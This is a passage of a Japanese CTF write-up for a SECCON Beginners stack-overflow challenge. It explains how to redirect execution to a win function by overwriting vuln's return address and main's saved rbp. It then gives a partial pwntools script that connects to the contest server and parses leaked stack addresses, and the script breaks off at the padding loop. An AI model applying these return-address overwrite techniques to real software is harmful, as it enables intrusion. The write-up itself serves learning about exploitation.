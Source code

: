 ### 他人のWriteupを読んでみた
悔しいので終了直後から色々探していた。
見てみるとどうやら跳ぶ先のアドレスをいい感じ変えたりvulnのreturn addressを変えてleaveを飛ばしてrbpの方で調整する方法などが見つかった。
早速試してみる。（今記事を書きながら試してる）
試してみたらできた。やっぱりvulnとmainどっちも使うのが正攻法っぽい。
vulnのreturn addressをvulnのret命令に持ってきてmainのrbpをwinの関数のアドレスに書き換えれば、leaの処理によるrspのズレがなくなる。
なるほど。これなら納得。
変更したコードは以下の通り。
```python
from pwn import *

buf=""
send_data=""
main_rbp="400ad0"
terget_address="400861"

saved_vuln=""
ret_vuln=""
saved_main=""
ret_main=""

conn=remote('bs.quals.beginners.seccon.jp',9001)


buf=conn.recvline()
buf=conn.recvline()
buf=conn.recvline()
buf=conn.recvline()
buf=conn.recvline()
buf=conn.recvline()
buf=conn.recvline()
buf=conn.recvline()
buf=conn.recvline()
buf=conn.recvline()
buf=conn.recvline()
buf=conn.recvline()

buf=conn.recvline()
saved_vuln=buf.decode('utf-8')
saved_vuln=saved_vuln[23:39]

buf=conn.recvline()
buf=conn.recvline()
ret_vuln=buf.decode('utf-8')
ret_vuln=ret_vuln[23:39]

buf=conn.recvline()
buf=conn.recvline()
saved_main=buf.decode('utf-8')
saved_main=saved_main[23:39]

buf=conn.recvline()
buf=conn.recvline()
ret_main=buf.decode('utf-8')
ret_main=ret_main[23:39]

print(saved_vuln)
print(ret_vuln)
print(saved_main)
print(ret_main)

# padding
for i in range(8*4):
```